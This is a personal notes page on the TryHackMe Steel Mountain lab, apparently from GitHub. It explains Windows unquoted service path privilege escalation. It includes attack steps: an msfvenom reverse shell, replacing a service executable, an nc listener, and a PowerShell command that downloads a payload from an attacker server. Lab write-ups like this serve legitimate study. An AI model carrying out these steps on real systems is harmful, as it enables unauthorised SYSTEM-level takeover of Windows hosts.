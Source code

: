 # TryHackMe-Steel-MountainWhat in the world is Unquoted Service Path?
#THIS IS A PAGE FOR MY PERSONAL NOTES ONLY.
When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).
In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

From <https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae> 











Using PowerUp.ps1 script to enumurate the windows system. 
![Image-steel](https://github.com/kiwids0220/TryHackMe-Steel-Mountain/blob/master/Untitled%20picture.png)




Ran Into some erros because we are using the PowerShell.
![image-steel](https://github.com/kiwids0220/TryHackMe-Steel-Mountain/blob/master/Untitled%20picture1234.png)


Fixed!
![image-stell1](https://github.com/kiwids0220/TryHackMe-Steel-Mountain/blob/master/Untitled%20picture123.png)
THINGS LEARNT:
	1. Msfvenom: generate reverse_shell, 
	2. Metasploit's powershell_shell may not work with "sc". Instead, I promoted the command "sc stop AdvancedSystemCareService9" in to the regular CMD shell. And it finally stopped the service. And so is the "copy ASCService.exe "<PATH>" .
	3. Nc a listener in port specified in your payload with msfvenom.
	4. After "sc start AdvancedSystemCareService9" you will see a reverse shell in your terminal
	
	5. Cmd shell comand:  copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	



	
	
#using without metasploit, I think it is a good practice to do because it is a very good example of work around when metasploit gets reject AV. 
THINGS LEARNT:
		a. Powershell -c "Invoke-WebRequest - FileOut xxxxxx http://<IP>/filename.exe (to download from local server)
		b. Cmd shell: sc start | sc stop <SERVICE> (to start and stop a service)
		c. somtimes TMUX terminal can give a problem reading the buffer when it recieves a rever_shell from windows. Just use a normal terminal window to listen and connect the shell. 

Nc -lvp <PORT LISTENING FROM THE PAYLOAD>


